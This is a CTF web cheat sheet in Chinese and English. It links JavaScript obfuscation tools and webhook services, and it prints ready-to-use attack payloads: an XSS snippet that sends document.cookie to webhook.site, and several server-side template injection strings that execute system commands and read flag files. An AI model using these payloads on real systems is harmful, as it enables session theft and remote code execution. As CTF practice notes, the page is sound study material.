 ```yaml
---
title: Web Cheat Sheet
tags: [Tools, CTF, Web]

category: "Tools/CTF"
---
```


# Web Cheat Sheet

## Online Tools
| Fuck                             | Beautifier                       |
| -------------------------------- | -------------------------------- |
| [jsfuck](http://www.jsfuck.com/) | [JSNice](http://www.jsnice.org/) |
|[jjencode](https://utf-8.jp/public/jjencode.html)|[JS 反混淆器](https://beautifier.io/): 可以反混淆或解密JS的檔案|
|[aaencode](https://utf-8.jp/public/aaencode.html)|[JS 壓縮+加密+混淆+美化](https://js.wfuapp.com/)|
|[Esolang List](https://esolangs.org/wiki/Language_list)|[JS Fuck Decode](https://www.53lu.com/tool/jsfuckdecode/)|
||[aadecode](https://cat-in-136.github.io/2010/12/aadecode-decode-encoded-as-aaencode.html)|

## Cheat-Sheet
{% raw %}
* [XSS-CheatSheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
    利用XSS把session打到webhook上: 
    ```javascript?
    window.location=<requestbin.com>/?a+document.cookie
    // or
    fetch("https://webhook.site/699a6563-c9b5-4ad7-adaa-e189c5f78194", { method: 'GET', headers: { 'Cookie': document.cookie } })
    ```
* [All-Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%19Injection/README.md)
* SSTI Payload: 記得找==os.\_wrap_close==
    ```
    {{().__class__.__base__.__subclasses__()[132].__init__.__globals__['system']('id')}}
    {{self.__init__.__globals__.__builtins__.__import__("os").popen("cat%20Flag.txt").read()}}
    {{().__class__.__bases__[0].__subclasses__()[138].__init__.__globals__['execl']("/bin/cat", "cat", "./flag.txt")}}
    {{().__class__.__bases__[0].__subclasses__()[138].__init__.__globals__['popen']("cat /flag.txt")}}
    {{().__class__.__bases__[0].__subclasses__()[138].__init__.__globals__['execl']("/bin/cat", "cat", file.lower())}}
    {{().__class__.__bases__[0].__subclasses__()[138].__init__.__globals__['spawnl']('P_WAIT', "/bin/cat", "cat", file.lower())}}
    ```
{% endraw %}

## Others
* wasm $\to$ c: [wabt](https://github.com/WebAssembly/wabt)
    ```bash!
    # 按照說明build完後進到./build
    $ ./wasm2c {wasm file path} -o {output c file path}
    ```
* Webhook
    [Webhook.site](https://webhook.site/)
    [Beeceptor](https://beeceptor.com/)
    [Ngrok](https://ngrok.com/)